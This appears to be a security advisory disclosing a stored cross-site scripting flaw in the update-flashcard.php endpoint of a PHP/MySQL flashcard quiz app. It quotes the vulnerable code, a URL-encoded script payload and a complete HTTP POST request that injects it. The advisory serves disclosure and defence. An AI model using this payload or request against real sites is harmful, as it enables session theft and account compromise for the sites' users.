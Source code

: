 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Flashcard Quiz App Using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17175/faq-management-system-using-php-and-mysql-source-code.html) <br/>

**Affected Version**:
> Flashcard Quiz App Using PHP and MySQL 1.0

**Affected Site Page**: 
> /flashcard-quiz/endpoint/update-flashcard.php<br/>

**Affected Code**: 
> </update-flashcard.php> <br/>

There is not input sanitization present when updating quizes, making the web application vulnerable to XSS.

```php
<?php
include("../conn/conn.php");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_POST['question'], $_POST['answer'])) {
        $cardID = $_POST['tbl_card_id'];
        $question = $_POST['question'];
        $answer = $_POST['answer'];

        try {
            $stmt = $conn->prepare("UPDATE tbl_card SET question = :question, answer = :answer WHERE tbl_card_id = :tbl_card_id");
            
            $stmt->bindParam(":tbl_card_id", $cardID, PDO::PARAM_STR);
            $stmt->bindParam(":question", $question, PDO::PARAM_STR);
            $stmt->bindParam(":answer", $answer, PDO::PARAM_STR);

            $stmt->execute();

            header("Location: http://localhost/flashcard-quiz/");

            exit();
        } catch (PDOException $e) {
            echo "Error:" . $e->getMessage();
        }

    } else {
        echo "
            <script>
                alert('Please fill in all fields!');
                window.location.href = 'http://localhost/flashcard-quiz/';
            </script>
        ";
    }
}
?>

```

**Related CWE:**
> [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

## **Details:**
> Allows XSS by placing untrusted code on the parameters `question` and `answer`.

Payload used is `%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E` for both parameters.

```http 
POST /flashcard-quiz/endpoint/update-flashcard.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
Connection: close

tbl_card_id=3&question=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E&answer=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E
```

![image](https://github.com/smurf-reigz/security/assets/48426940/ab39c7bb-ef81-4b9f-9e8f-64bf1ac16518)


## **Vulnerability Impact:**
> Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."
